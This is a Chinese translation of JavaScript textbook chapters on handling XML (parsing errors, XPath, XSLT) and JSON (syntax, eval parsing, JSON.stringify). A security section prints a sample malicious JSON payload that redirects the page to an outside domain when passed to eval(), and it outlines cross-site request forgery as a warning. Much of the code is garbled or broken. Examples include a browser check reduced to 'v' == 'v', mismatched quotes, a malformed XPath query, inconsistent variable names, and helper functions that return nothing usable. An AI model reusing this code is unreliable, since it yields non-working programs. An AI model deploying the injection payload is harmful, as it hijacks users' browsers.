要检查文档解析是否成功，你可以检查 `errorCode > 0`：

```javascript
if (xmlDoc.parseError && xmlDoc.parseError.errorCode!= 0) {
    // 发生了错误
    alert(xmlDoc.parseError.reason + "\n\nLine: " + xmlDoc.parseError.line);
}
```

要显示错误文本，请使用属性 `reason`。在 Firefox 和其他符合 W3C 标准的浏览器中，方法要间接一些。当解析指令失败时，它是静默失败的。没有可以检查是否是否了错误的标志位。相反，XML 文档本身就变成了一个错误消息。例如，考虑以下行：

```javascript
var parser = new DOMParser();
var xmlDoc = parser.parseFromString("<root><fds></root>", "text/xml");
```

在这种情况下，提供的 XML 字符串将无法正确解析。相反，根元素将变成 `<parsererror>`，我可以这样检查它：

```javascript
if (xmlDoc.documentElement.tagName == "parsererror") {
    // 处理错误
}
```

要查看错误的内容，请检查 `documentElement` 的 `textContent`，在这种情况下（在 Firefox 中）将是：`XML Parsing Error: mismatched tag. Expected:/fds>`。

位置：[`localhost:3000/quicktest/LineNumber1,Column14:`](http://localhost:3000/quicktest/LineNumber1,Column14:)<root><fds></root>

-------------^消息的具体文本随浏览器而异。

# 将 XML 序列化为文本

一旦文档被序列化为其对象表示，它并不会永远停在那里。你可以获取整个文档 XML 的字符串等效表示，甚至是单个节点或文档的某部分。在 Internet Explorer 中，获取这非常简单。每个 XML 文档和每个节点都有一个名为 `xml` 的属性，该属性有一个文本表示等待你读取。使用之前的 `parseXML()` 函数，可以很容易地演示这一点：

```javascript
var xmlDOM = parseXML("<root><name>Alexei White</name></root>");
if (xmlDOM.xml) {
    // Internet Explorer
    alert(xmlDOM.xml); // "<root><name>Alexei White</name></root>"
} else {
    var serializer = new XMLSerializer();
    var sXML = serializer.serializeToString(xmlDOM);
    alert(sXML); // "<root><name>Alexei White</name></root>"
}
```

你可以将文档或仅单个节点传递给 `serializeToString()`。

# 使用 XML DOM API

XML DOM 与 HTML DOM 非常相似。两者都具有相同的引用关系并共享一些相同的函数。然而，它们存在一些关键的差异。首先，XML 文档支持 XPath 查询。虽然某些浏览器支持 HTML 文档的 XPath，但 Internet Explorer 并不是其中。尽管如此，正如你将在后续子节中看到的，这两个 DOM 的相似之处大于不同。

## 元素和节点

XML 和 HTML 文档由节点和属性组成。在 XML 文档中，元素节点通常是文档的最外层部分，属于一个节点层次结构，向上追溯到根节点。与 HTML DOM 一样，节点和元素充满了指向其他节点的特殊属性，如 `parentNode` 和 `firstChild`（你在第 13 章学过这些）。

元素节点也可以同时拥有内容和属性。当这些被表示为文本时，你可以清楚地看到它们：`<name contents="firstlast">Alexei White</name>`

在这种情况下，标签 `contents` 是一个属性，可以通过 `getAttribute()` 方法读取：`alert (xmlDOM.getElementsByTagName("name")[0].getAttribute("contents")); // "firstlast"`

XML DOM 节点具有许多与 HTML 节点相同的属性，你将在下表中看到。

## 遍历 DOM

为了说明如何遍历 DOM，我们从以下 XML 文档开始：

```xml
<customers>
    <customer id="123">
        <name>Alexei White</name>
        <birthdate>March 10, 1980</birthdate>
        <email>me@domain.com</email>
        <phone>604-555-5555</phone>
        <pets>
            <pet>Snake</pet>
            <animal>Cat</animal>
        </pets>
    </customer>
    <customer id="124">
        <name>Tyson Lambert</name>
        <birthdate>January 13, 1979</birthdate>
        <email>ty@domain.com</email>
        <phone>604-545-5555</phone>
        <pets>
            <pet>Jimbo</pet>
            <animal>Snake</animal>
        </pets>
    </customer>
</customers>
```

类似于 HTML DOM，你可以通过链式访问器来定位元素。例如，我可以这样做获取 `<customer>` 节点：`xmlDOM.childNodes[0].childNodes[1].parentNode.childNodes[0].tagName // "customers"`

要快速搜索 XML 文档并获取集合，可以使用 `getElementsByTagName()`，它接受一个标签字符串作为参数。如果我用 `getElementsByTagName("name")` 搜索文档，将得到一个数组，因为文档中有四个 `<name>` 节点，即使它们在原始文档中是嵌套的。我也可以进行通配符搜索：`xmlDOM.getElementsByTagName("*")` 在这种情况下，我将获得文档中每个元素的数组。记住，每个节点仍然具有引用完整性，因此对元素调用 `parentNode` 将返回原始父节点，而不是序列化版本。

与 HTML DOM 不同，你无法通过 `getElementById()` 根据 id 查询元素。这是因为 XML 忽略任何名为 "id" 的特殊字段。在 XML 中，id 字段只是另一个属性。对于没有正式 DTD 的普通 XML 文档，可以通过结合 `getAttribute()` 和 `getElementsByTagName()` 实现类似的效果：

```javascript
function getElementByIdXML(rootnode, id) {
    // 首先获取文档中的所有元素
    nodeTags = rootnode.getElementsByTagName('*');
    for (i=0;i<nodeTags.length;i++) {
        // ID 属性是否等于 Id？如果是，返回它
        if (nodeTags[i].getAttribute('id') == id)
            return nodeTags[i];
    }
}
```

现在使用此函数，我可以搜索 XML 数据中 id 为 "124" 的记录并显示其内容：

```javascript
var customerNode = getElementByIdXML(xmlDOM, "124");
// 序列化回文本。
if (customerNode.xml) {
    alert(customerNode.xml);
} else {
    var serializer = new XMLSerializer();
    alert(serializer.serializeToString(customerNode));
}
```

当然，使用 XPath 这将变得容易得多。

## 执行 XPath 查询

`XML Path` (`XPath`) 是一种使用简洁查询语法的从 XML 文档中选择节点的一种语言。和正则表达式一样，`XPath` 是一个非常深奥的主题，值得讨论的内容比我在这里提供的多得多，但这里有一份关于如何在 JavaScript 中使用它的快速入门指南。

从上一节的 XML 文档开始，假设我想找到列表中的所有客户。我使用父子标签关系编写了一个表达式：`/customers/customer`

要定位到第一个客户，我使用数组括号记法表示索引或过滤：`/customers/customer[1]`

要通过特定的 id 定位客户，我使用属性选择器 `″@″:`：`/customers/customer[@id = ″124″]`

请注意，使用 `XPath` 来执行此操作将比我之前遍历所有元素的方法快得多。`XPath` 针对速度进行了优化，只要可能，你都应该使用它，而不是手动方法来查询数据。

执行 `XPath` 查询有点奇怪。在 Internet Explorer 中，有一个极其简单的 `selectNodes()` 方法，它接受选择器字符串并输出一个 `NodeList`（数组）。注意，你还应该调用 `setProperty()` 来告诉 IE 你将使用 `XPath` 而不是 `XSLPattern` 作为默认选择语言，如下例示例所示：

```javascript
var nodelist = []; // 将存储结果

if ('v' == 'v') {
    // IE
    xmlDoc.setProperty("SelectionLanguage", "XPath");
    nodelist = xmlDoc.documentElement.selectNodes(xpath);
} else {
    // W3C
    var evaluator = new XPathEvaluator();
    var resultSet = evaluator.evaluate(xpath, xmlDoc, null, XPathResult.ORDERED_NODE_ITERATOR_TYPE, null);
}
```

等等，`evaluate()` 方法与 `document.evaluate()` 相同，并具有以下通用语法：

```javascript
evaluator.evaluate(xpathExpression, contextNode, namespaceResolver, resultType, result)
```

`xpathExpression` 是你想要执行的表达式字符串。`contextNode` 可以是一个 XML 文档对象，也可以仅仅是该文档的一个子节点。`namespaceResolver` 仅在文档存在命名空间时才使用（否则应为 `null`）。提前说，`result` 可以是一个用于此此查询的现有结果容器。然而，最感兴趣的参数是 `resultType`，它指定了结果的结构。这是一个常量，在随后的表中你会看到该参数的可能值。

从根本上说，返回结果集有两种方法：通过迭代器或通过快照。迭代器将返回 XML 文档中原始节点的引用，而快照将返回节点的副本。为了与 Internet Explorer 的处理方式保持兼容，你应该使用迭代器，这也是我接下来将要做的。

返回的结果集不是一个数组。如果你熟悉其他编程语言中的枚举器或迭代器概念，下面的代码片段对你来说将来说。基本上，我将遍历结果集并将结果转换为数组，这样返回的结果与 Internet Explorer 返回的结果大相同：

```javascript
if (resultSet) {
    var el = resultSet.iterateNext ( );
    while (el) {
        nodelist.push(el);
        el = resultSet.iterateNext();
    }
}
```

接下来的示例将我在这里所的操作，并将执行 XPath 查询和结果转换为数组的过程封装在一个名为 `selectXMLNodes(xmlDoc, xpath)` 的函数中：

```html
<html
<head>
    <title>XPath Example</title>
</head>
<body>
<h1>XPath Example</h1>
<script type=″text/javascript>
function parseXML(str) {
    if (′\v′ == ′v′) {
        //Internet Explorer
        var xmlNames = [″Msxml2.DOMDocument.6.0″, ″Msxml2.DOMDocument.3.0″, ″Msxml2.DOMDocument″, ″Microsoft.XMLDOM″, ″Microsoft.XmlDom″];
        for (var i = 0; i< xmlNames.length;i++) {
            try {
                var xmlDoc = new ActiveXObject(xmlNames[i]);
                break;
            } catch(e) {}
        }
        xmlDoc.async = false;
        xmlDoc.loadXML(str);
    } else {
        try {
            //Firefox, Mozilla, Opera, Webkit.
            var parser = new DOMParser ( );
            var xmlDoc = parser.parseFromString(str,″text/xml″);
        } catch(x) {
            alert(x.message);
            return;
        }
    }
    return xmlDoc;
}
var xmlStr = ″customers<customer id=″23″><name>Alexei White</name><birthdate>March 10, 1980</birthdate><email>me@domainhidden.com</email><phone>604-555-5555</phone><pets><name>Sparky</name><animal>Cat</animal></pets></customer><customer id=″24″><name>Tyson Lambert</name><birthdate>January 13, 1979</birthdate><email>ty@domainhidden.com</email><phone>604-545-5555</phone><pets><name>Jimbo</name><animal>Snake</animal></pets></customer>″;
var xmlDOM=parseXML(xmlStr);
function selectXMLNodes(xmlDoc, xpath) {
    if (′\v′ == ′v′) {
        // IE
        return xmlDoc.documentElement.selectNodes(xpath);
    } else {
        // W3C
        var evaluator = new XPathEvaluator();
        var resultSet = evaluator.evaluate(xpath, xmlDoc, null, XPathResult.ORDERED_NODE_ITERATOR_TYPE, null);
        var nodeList = [];
        if (resultSet) {
            var el = resultSet.iterateNext ( );
            while (el) {
                nodelist.push(el);
                el = resultSet.iterateNext();
            }
        }
        return nodeList;
    }
}
var nodeList = selectXMLNodes(xmlDOM,″/customers[@id = ″24″);
alert(nodeList.length);
</script>
</body>
```

# 使用 XSLT 转换数据

在 Ajax 事务中，你可能会从服务器获取一段 XML 数据并希望以某种方式将其转换为 HTML。解决这个问题有几种方法。在一种情况下，可以使用 XML DOM 获取特定节点的内容并手动将其插入页面。对于大量数据，这将是一个繁琐且缓慢的过程。更好的方法是使用称为可扩展样式表转换 (`XSLT`) 的工具。`XSLT` 将一个基于 XML 的模板应用于某些 XML 以生成另一种可读格式（在本例中为 HTML）。要执行 `XSLT`，你基本上需要两个东西：一个包含数据的源 XML 文档和一个 XSL 模板。我重用之前的 XML：

```xml
<?xml version="1.0"?>
<customers>
    <customer id="123">
        <name>Alexei White</name>
        <birthdate>March 10, 1980</birthdate>
        <email>me@domainhidden.com</email>
        <phone>604-555-5555</phone>
        <pets>
            <pet>
                <name>Sparky</name>
                <animal>Cat</animal>
            </pet>
        </pets>
    </customer>
    <customer id="124">
        <name>Tyson Lambert</name>
        <birthdate>January 13, 1979</birthdate>
        <email>ty@domainhidden.com</email>
        <phone>604-545-5555</phone>
        <pets>
            <pet>
                <name>Jimbo</name>
                <animal>Snake</animal>
            </pet>
        </pets>
    </customer>
</customers>
```

假设我想获取此 XML 并导出大致如下所示的 HTML 表格：

```html
<table>
    <tr>
        <th>Customer</th>
        <th>Email</th>
        <th>Birthday</th>
        <th>Pets</th>
    </tr>
    <tr>
        <!--数据将在此处 -->
    </tr>
</table>
```

我可以使用 XPath 和一系列的 XSL for-each 选择器来遍历数据并输出 XHTML：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method='html' version='1.0' encoding='UTF-8' indent='yes'/>
<xsl:template match="/">
```

## 客户列表

<table border="1">
    <tr>
        <th>客户</th>
        <th>邮箱</th>
        <th>出生日期</th>
        <th>宠物</th>
    </tr>
    <xsl:for-each select="customers/customer">
    <tr>
        <td><xsl:value-of select="name"/></td>
        <td><xsl:value-of select="email"/></td>
        <td><xsl:value-of select="birthdate"/></td>
        <td>
            <xsl:for-each select="pets/pet">
                <xsl:value-of select="name"/>,
            </xsl:for-each>
        </td>
    </tr>
    </xsl:for-each>
</table>

</xsl:template>
</xsl:stylesheet>

通过观察这个模板，发生的情况应该是显而易见的。在顶部，我有我的 XML 文档定义，接着是 `<xsl:stylesheet>`，它告诉文档解析器这是一个样式表。如果需要，我在这里也定义命名空间。接下来，我指定了 `<xsl:output method='html' />`，它调用内部的 XSLT 规则来格式化 HTML 而不是 XML 等输出格式。第一个真正的模板标记是 `<xsl:template match='/' />`，它将模板的该部分匹配到 XML 文档的根节点。由于只有一个根节点，模板的这部分将只出现一次，这正是我想要的。这将设置我的标题和整体表格结构。接下来，我对 XPath 语句 `"customers/customer"` 执行 `for .. each` 循环，该语句匹配根节点 customers 节点与单个客户之间的父子关系。嵌入在该循环内部的是另一个子循环，查询每个客户记录中的宠物组，以生成用逗号分隔的列表。这是一个 XSL 模板的非常简单的示例，并不是渲染我所需要的 HTML 的唯一方法。现在，我将看看如何将此模板应用到 XML 上。

## 应用 XSL 模板

在 Internet Explorer 中，应用 XSL 模板非常简单，但有几种方法可以实现。最简单的方法是将 XML 文件和 XSL 文档都加载到单独 XML 文档中，并使用 `transformNode()` 应用 XSL。我将沿用之前的 `parseXMLDocument()`：

```javascript
var xmlDOM = parseXMLDocument("data.xml");
var xslDOM = parseXMLDocument("xsl.xml");

if ('v' == 'v') {
    // IE
    var resultDocument = xmlDOM.transformNode(xslDOM);
    document.getElementById("result").innerHTML = resultDocument;
}
```

在 Internet Explorer 中，*如何*执行转换至关重要。`DOMDocument` 上的 `transformNode()` 方法绝不是实现此事的唯一方法。另一种对 XSLT 内部操作提供更多控制的方法是使用 `MSXML2.FreeThreadedDOMDocument`，代价是牺牲了一些性能。要使用 FreeThreaded 加载相同文档，请创建一个实例并使用 `load` 而不是 `XMLHttpRequest` 来加载文档。对于大多数用途，没有必要这样做。

为了确保 XSL 转换完全可靠，你应该预期你的用户至少拥有 Internet Explorer 6.0，该版本实现了完整的 XSLT 1.0 规范（MSXML 3.0）。在 Firefox、Safari 3+ 和 Opera 9.5+ 中，你使用符合 W3C 标准的 `XSLTProcessor()`。一旦获取了实例，就可以使用 `importStylesheet()` *导入* XSL 模板：

```javascript
} else if (document.implementation && document.implementation.createDocument) {
    // 用于 Mozilla, Firefox, Opera 等代码
    xsltProcessor = new XSLTProcessor();
    xsltProcessor.importStylesheet(xslDOM);
}
```

现在你必须做一个决定了。你可以执行转换并使用 `transformToDocument()` 将结果存入 `DOMDocument` 对象中，或者你可以将结果放入 `DocumentFragment` 中，这样更容易快速地追加到现有文档中：

```javascript
var resultDocument = xsltProcessor.transformToFragment(xmlDOM,document);
document.getElementById("result").appendChild(resultDocument);
```

在图 20-1 中，你看到了这个示例在 Internet Explorer 中的输出。图 20-1 接下来的完整示例采用了上一节中的 XML 和 XSL 文档，并将它们转换为 HTML 表格：

```html
<html>
<head>
    <title>XSLT 示例</title>
</head>
<body>
<h1>XSLT 示例</h1>
<div id="result"></div>
<script type="text/javascript">
function XHR() {
    if ( typeof XMLHttpRequest == "undefined" ) {
        var xhrNames = ["MSXML2.XMLHTTP.6", "MSXML2.XMLHTTP.3", "XMLHttpRequest"];
        var XHR;
        for (var i = 0; i < xhrNames.length; i++) {
            try {
                XHR = new Object(xhrNames[i]);
                break;
            } catch(e) {}
        }
        if (typeof XHR != undefined) {
            return XHR;
        } else {
            return new Error("不支持 Ajax!");
        }
    }
}
function parseXMLDocument(url) {
    var myXhr = XHR();
    myXhr.onreadystatechange = function() {
        if (myXhr.readyState == 4) {
            var xmlDoc = myXhr.responseXML;
        }
    };
    myXhr.open("get", url, false);
    myXhr.send( null );
    return xmlDoc;
}
var xmlDOM = parseXMLDocument("data.xml");
var xslDOM = parseXMLDocument("xsl.xml");
if ('v' == 'v') {
    // IE
    var resultDocument = xmlDOM.transformNode(xslDOM);
    document.getElementById("result").innerHTML = resultDocument;
} else if (document.implementation && document.implementation.createDocument) {
    // 用于 Mozilla, Firefox, Opera 等代码
    xsltProcessor = new XSLTProcessor();
    xsltProcessor.importStylesheet(xslDOM);
    var resultDocument = xsltProcessor.transformToFragment(xmlDOM,document);
    document.getElementById("result").appendChild(resultDocument);
}
</script>
</body>
</html>
```

# E4X

一种在 JavaScript 边缘已经存在了多年的 XML 能力是 *ECMAScript for XML* (*E4X*)。本质上，它是一种语言扩展，通过允许直接使用 XML 字面量以及属性和节点的直接表示，简化在 JavaScript 中嵌入和处理 XML 的方式。某种意义上说，E4X 的目标是提供与 JSON 已经实现的类似的集成度。考虑以下示例：

```javascript
var custs = <customers><customer id="123"><name>Jimmy</name><age>21</age></customer></customers>;
document.write( custs.customer.(@id == "123").name );
```

本章介绍了在 JavaScript 应用中使用 XML。它涵盖了与使用若干 XML 特性相关的跨浏览器兼容问题。具体来说，我涵盖了：

*   XML 文档可以从文本字符串反序列化，或从外部文档加载。当加载外部 XML 文档时，你可以使用 XML DOM 执行检索，或者退回到 `XMLHttpRequest`。
*   Internet Explorer 和其他浏览器之间的错误处理方式略有不同。在 IE 中，你有非常方便的 XML 文档 `parseError` 属性。在 Firefox 等符合 W3C 标准的浏览器，你必须查看文档根节点判断其类型是否为 `parsererror`。
*   我向你展示了如何使用 IE 中的 `xml` 属性以及其他浏览器中的 `XMLSerializer` 对象将 XML 文档重新序列化为文本。
*   我向你展示了如何使用引用 DOM 属性（如 `parentNode`、`firstChild`、`lastChild` 等）导航 XML 文档。
*   我看了 `XPath` 查询以及如何使用它们快速过滤或搜索文档中的特定节点。
*   XSLT 是一种模板功能，允许将 XML 数据翻译为 HTML 或其他人类可读的格式。我向你展示了一些基础 XSLT 特性，并演示了如何在 IE 以及其他浏览器中执行转换。

在第 21 章中，我将讨论 JavaScript 对象表示（JSON.）。JSON 是一种非常实用的 JavaScript 数据容器，也是 Ajax 应用和 Web 服务常用的传输格式。

## 21：处理 JSON

Ajax 的另一种非常流行的交换格式是 JSON（读作 "Jason"）或 `JavaScript Object Notation`。与 XML 相比，它是一种更轻量、更易于人类阅读的格式，并且通常更契合 JavaScript 应用，尽管在 JavaScript 世界*之外*，它可能比 XML 更加异类。该格式由 Yahoo! 的 Douglas Crockford 在网络工作组的请求意见（RFC）#4627 中正式描述，他还维护着流行的 `JSON.org` 网站，该网站是关于该格式资源和信息的中心。RFC 定义了 JSON 文档的官方文件扩展名为 `.json`，官方 MIME 类型为 `application/json`。

尽管 JSON 被认为是一种语言无关的数据格式，但实际上说它是 JavaScript 语言的子集也是正确的。JSON 并不是先定义再被 JavaScript 采纳的；它是作为一种 `use` JavaScript 用于数据传输的方法被发现的，而这种方法恰好在许多其他语言中也有用。

对象字量符号构成了 JSON 的基础。在书中你已经看到了许多数组、字符串和数字的 JavaScript 对象字量符号示例，如下代码段所示：

```javascript
var anArray = ["hello", "world"];    // Array
var aString = "hello world";      // String
var aNumber = 3.14159;               // Number
var anObject = {};                  // Object
var aBoolean = true;                // Boolean
var aRegExp = /hello/gi;            // Regular Expression
```

JSON 基于对象字量符号的概念，支持包含各种常见数据类型的任意数据结构：

*   数字：数字类型包括整数（1, 2 3）、浮点数（3.1415）和实数（6.02e23）。
*   字符串：根据标准，字符串是带双引号且带有反斜杠转义的 Unicode 字符串。
*   布尔值：true 和 false 值。
*   数组：值的有序序列。
*   对象：键值对。
*   空：一个空指针。

在某些实现中，JSON 还能描述：

*   正则表达式
*   编码的二进制值
*   日期对象

通常，由于 JSON 的轻量级特性，它的使用需要一些权衡，例如带宽效率、非线性解码或增量写入。然而，对于浏览器内部的大多数用途，JSON 是一个非常灵活的工具，并且没有像 XML 那样的许多复杂性和跨浏览器差异。

## 从 JavaScript 字量符号到 JSON

JSON 是 JavaScript 对象字量符号表示法的子集。它必然使用所有相同的格式规则和原始类型。你会立即识别出这种语法，它与对象字量符号没有二致：

```json
{
  "customers": [
    {
      "name": "Alexei White",
      "age": 29,
      "spam": false
    },
    {
      "name": "Tyson Lambert",
      "age": 29,
      "spam": true
    }
  ]
}
```

在前一个示例中，`customers` 标识符被赋值给包含两个对象的数组（使用你熟悉的括号表示法）。对于 JavaScript 解释器理解对象字量符号来说，变量标签使用引号并非完全必要，但它是标准的一部分，因为它允许更广泛的标签，且这种一致性使得为 `PHP`、`Java` 或 `.NET` 等其他语言编写解释器变得更加容易。例如，通过使用引号，我可以在标签中这样包含一个空格：

```json
{
  "username": "donald"
}
```

在 JavaScript 中，我现在可以使用括号表示法来访问此属性：`object["username"]`。与所有的 JavaScript 字符串字量符号一样，所有值必须经过转义编码，以防它们干扰容器语法。例如，字符串 `Hello "world"` 在用于 JSON 字符串字量符号内部时，必须对其引号进行转义，如下：

```json
{
  "string": "Hello \"world\""
}
```

同样，反斜杠也必须进行编码，以避免在 JavaScript 中具有特殊含义。字符串 `"you have a choice of vanilla\tapioca pudding"` 在解析时会损坏，因为在这种情况下 `\t` 无意中表示了制表符。编码后的等价为：

```json
{
  "string": "you have a choice of vanilla\\tapioca pudding"
}
```

Unicode 字符不需要编码，也可以使用转义法：

```json
{
  "copyrightnotice": "\u00A9 Superduper Networks Inc."
}
```

## 执行代码的 JSON

将 JSON 字符串转换为 JavaScript 对象并最终任何有用格式的最简单方法是使用 `eval()`。考虑之前的 JSON 块：

```json
{
  "customers": [
    {
      "name": "Alexei White",
      "age": 29,
      "spam": false
    },
    {
      "name": "Tyson Lambert",
      "age": 29,
      "spam": true
    }
  ]
}
```

为了方便起见，我将其转换为 JavaScript 字符串：

```javascript
var jsonString = "{\"customers\": [{\"name\": \"Alexei White\",\"age\": 29,\"spam\": false},{\"name\": \"Tyson Lambert\",\"age\": 29,\"spam\": true}]}";
```


`29,"spam":false},{"name":"Tyson Lambert","age":29,"spam":true}]`;

要将其转换为对象，需要通过将其括在圆括号 `()` 中来重新排列为表达式，并通过赋值给一个新变量来求值：`var jsonObj = eval("(" + jsonString + ")");`

此时，可以像通常的 JavaScript 一样访问 JSON 对象的成员：

```javascript
alert( jsonObj.customers[1].name );    // "Tyson Lambert"
```

然而，这确实会导致一些安全方面的担忧。

# 安全问题

JSON 以来最受关注的问题是，因为它由语法正确的 JavaScript 代码组成，因此将其转换并解析的最简单方法是使用上一节演示的 `eval()` 方法进行求值。这种方法的问题在于，JSON 块可以包含任何内容，包括恶意代码，如下例所示：

```json
{
  "evilcode":function(){window.location='http://dsfsd342d.com';()}()
}
```

使用 `eval()` 解析此内容会导致页面重定向到另一个网站。即使 JSON 源没有被直接执行 `eval()`，如果通信是通过注入的 `<script>` 标签处理的，结果也会被自动求值。如果你打算使用跨站脚本注入（我稍后会描述），你必须真正信任数据源，否则你可能会将用户浏览器的控制权移交给第三方。

该问题的解决办法有两个。如果你将要处理不可信的 JSON Web 服务，请避免使用跨域脚本请求作为获取此类数据的方法。相反，使用第 19 节推荐的服务器端代理方法来检索数据，并通过 `XMLHttpRequest` 请求将结果返回给浏览器。第二个规则是不使用 `eval()` 来解析 JSON 数据。相反，请使用通过字符串操作分解数据包的 JSON 解析器。在本节稍后将为你展示如何这样做。

次要问题与第 17 节提到的内容有关。它被称为“跨站请求伪造”（Cross-site request forgery），其工作原理如下：假设用户已登录到他们基于 Web 的 CRM（客户关系管理）系统并处于活动会话。同时假设该 CRM 产品为已登录的用户提供了多个 JSON 服务。例如，一个为 Ajax 数据网格输出客户名称列表的 JSON 服务。现在，用户在没有注销的情况下离开了 CRM 网站。他们访问了另一个带有恶意 JavaScript 代码的网站。该脚本可以对 CRM 系统的已知 URL 执行跨站脚本请求，并利用已有的登录凭据和会话检索客户列表。用户可能完全不知道这正在发生，他们的用户列表可能会在用户不知情的情况下被盗取。

此处的教训是，作为敏感 JSON 服务提供者的 Web 应用程序必须尽力验证数据请求的来源。仅依赖会话 Cookie 是不够的。在其他措施中，JSON Web 服务在授予访问敏感数据的权限时应当验证引用来源（referrer）。

# JSON 对比 XML

自从 JSON 在 Ajax 中普及以来，关于哪种格式“更好”一直存在很多争议。通常，在比较两者的感知优点时，似乎存在许多极端的狂热情绪。许多辩论是主观的：XML 的支持者倾向于高估扩展性的重要性，而 JSON 粉丝们则倾向于低估 `XSLT` 的用处。

如果要进行直接比较，重点需要放在这两种格式在现实世界中的重叠区域，通常是用于基于浏览器的混合应用（mashups）和其他 JavaScript 组件引入数据。指出 JSON 不支持模式（schema）或验证是没有意义的，因为在现实世界中，开发者不会在浏览器中使用下载的数据进行此类操作。他们要么信任源，要么是自己提供数据，因此验证不是首要考虑。

事实是，XML 和 JSON 在用于 Web 时共享许多相同优点。它们都是支持 Unicode 的国际格式，而 Unicode 是 JavaScript 的字符集。它们都是人类可读且基于文本的，便于在视觉上观察和解码。它们都支持多种数据类型，并且受到了 Web 开发社区和浏览器厂商的极好认可。几乎每个浏览器都能原生解析 XML 或 JSON。

然而，XML 确实具有不可否认的优势。例如，`XSLT` 是一种极其高效且稳健的模板语言，用于将数据转换为 XHTML 或其他人类可读格式。对于过滤和搜索数据，还有 `XPath`，它没有 JSON 等价物。要执行过滤，必须编写自己的迭代器来检查 JavaScript 对象并返回结果集。遗憾的是对于 XML，浏览器对这些特性的支持不尽如人意。Internet Explorer、Firefox 和 Safari 之间巨大的差异使得使用它们变得有些痛苦。此外，如果你需要为旧浏览器提供支持，你可能必须完全避免使用它们。XML 还有 `E4X`（或 `ECMAScript for XML`），它允许直接在 JavaScript 应用中嵌入 XML 字面量和内联 `XPath` 表达式，而无需特殊库。遗憾的是，浏览器对 E4X 的支持太差，无法在任何主流应用中实际使用。

另一方面，JSON 具有直接转换为 JavaScript 对象的固有优势，使其对于 JavaScript 组件和 Ajax 交互极其有用。访问 JavaScript 对象的成员是直观且无故障的。开发者也倾向于使用原生 JavaScript 而非 XML 文档，因为可以轻松地为数据构建复杂的视图，而无需担心过程中的浏览器差异。原生 JavaScript 代码的另一个产物是调试工具对这些对象的调试方便得多。像 Firebug 和 IE8 开发者工具这样的内置调试器提供了 JavaScript 对象以及相应的 JSON 对象的内联对象检查。对 XML 文档进行同样的操作就没那么好了。根结到底，双方都有非常有力的论点。对于像跨域脚本请求这样的应用程序，真的没有选择：使用 JSON。对于 Ajax 交互，你有自由选择。你的选择应该反映反映你们开发团队的价值观。

正如你在第 3 章中学到的那样，每个原始数据类型都有对应的对象字面量。这些就是你用于构建 JSON 字符串的值。在 ECMAScript 3.1（草案）中，规定了一个原生 `JSON` 对象，它可以提供对象到字符串以及字符串到对象的转换。这一功能已经在 Internet Explorer 8 中实现，并将出现在 Firefox 3.5 中。Safari 和 Opera 肯定会在后续版本中支持它。

JSON 的 3.1 草案规范为 `Boolean`、`Date`、`Number` 和 `String` 数据类型提供了原生的 `toJSON()` 方法，该方法输出这些对象的规范化版本，用于 JSON 数据包。规范定义了这些方法的以下等效关系：


在 Firefox 和 IE 支持的新规范中，还有一个全局 `JSON` 对象，它包含两个方法：`JSON.parse()`（我稍后会讨论）和 `JSON.stringify()`，后者用于将对象转换为 JSON，并具有以下通用语法：

`JSON.stringify(value [, replacer [, space]])`

第一个参数 `value` 是你想要转换的原始类型或对象。第二个参数是一个可选的函数或数组引用，它可以拦截对象每个成员的转换，并可以对该值实现自定义格式化或过滤。最后一个参数 `space` 用于定义每一层如何缩进。如果它是一个数字，它应该指定每层缩进的空格数。如果是一个字符串（例如 `'\t'` 或 `'&nbsp;'`），它将包含用于缩进的字符。

**JSON 功能对于 Internet Explorer 8 来说全新的，但默认未启用。要启用此或其他新功能，你必须在头部使用 `<meta http-equiv="X-UA-Compatible" content="IE=8" />` 标签告诉 Internet Explorer 模拟 IE8。**

在不支持 `toJSON()` 的浏览器中，你可以使用互联网上许多免费库之一来复制此功能。其中流行的是 [`www.json.org`](http://www.json.org) 上的参考实现，可以在 [`www.json.org/json2.js`](http://www.json.org/json2.js) 下载。该实现提供了草案规范的免版税开源版本，并且与已经原生实现 `JSON` 对象的浏览器后兼容。

下面的示例使用了 JSON.org 对这些 ECMAScript 3.1 功能的参考实现，以增强任何原生不支持这些功能的浏览器。然后使用 `JSON.stringify()` 将四个不同的值转换为字符串：

```html
<html>
<head>
    <title>Simple JSON.stringify Examples</title>
    <meta http-equiv="X-UA-Compatible" content="IE=8" />
    <script type="text/javascript" src="/json2.js" ></script>
</head>
<body>
<script type="text/javascript">
// "Hello World"
document.write( JSON.stringify( "Hello World" )+"<br />");
// 21.31
document.write( JSON.stringify( 21.31 )+"<br />");
// ["Hello","World"]
document.write( JSON.stringify( new Array("Hello", "World") )+"<br />");
var obj = {
    a: 21,
    b: "Hello World",
    c: true
};
// {"a":21,"b":"Hello World","c":true}
document.write( JSON.stringify( obj )+"<br />");
</script>
</body>
</html>
```

这些示例中的每一个都转换得很好，因为它们都使用了标准的原始数据类型。当使用自定义对象时，你可能想要编写自己的 `toJSON()` 方法或使用 `replacer` 功能，我将在接下来中演示这两点。

## 自定义 `toJSON()` 方法

当你对对象调用 `JSON.stringify()` 时，会检查该对象的每个成员以查看它是否具有原生 `toJSON()` 方法。如果有，将将其用于在 JSON 字符串中表示该对象。考虑以下示例，它使用了一个名为 `CustomClass` 的自定义类。当对象序列化为 JSON 时，关于对象性质的关键信息丢失了：

```javascript
// 创建一个自定义对象
function CustomClass(value) {
    this.value = value;
    this.getValueTimesTwo = function() {
        return value*2;
    }
}
var ccInstance = new CustomClass(3.1415);
var obj = {
    customObject:ccInstance
};
// {"customObject":{"value":3.1415}}
document.write( JSON.stringify( obj ));
```

虽然输出 `"{"customObject":{"value":3.1415} }"` 描述了对象 `customObject` 的某些特性，但它并没有反映它是 `CustomClass` 的实例，缺少该对象的所有特性，如实例方法 `getValueTimesTwo()`。在这种情况下，你可能希望使用自定义的 `toJSON()` 方法提供关于对象的额外信息，以便以后能够正确重构。

遗憾的是，你不能仅仅使用自定义的 `toJSON()` 函数返回一个构造函数，就像我在本章开头做的那样。那样将违反 JSON 的基本规则之一，即不包含已评估的代码。相反，你可以返回一个更详细的对象，其中包含可以在反序列化期间用于来构造对象的信息。例如：

```javascript
function CustomClass(value) {
    this.value = value;
    this.getValueTimesTwo = function() {
        return value*2;
    }
    this.toJSON = function() {
        return {customconstructor: "CustomClass", value: value};
    }
}
```

现在，当调用 `stringify()` 时，将使用 `toJSON()` 的结果而不是默认值：

```javascript
// {"customObject":{"customconstructor":"CustomClass","value":3.1415}}
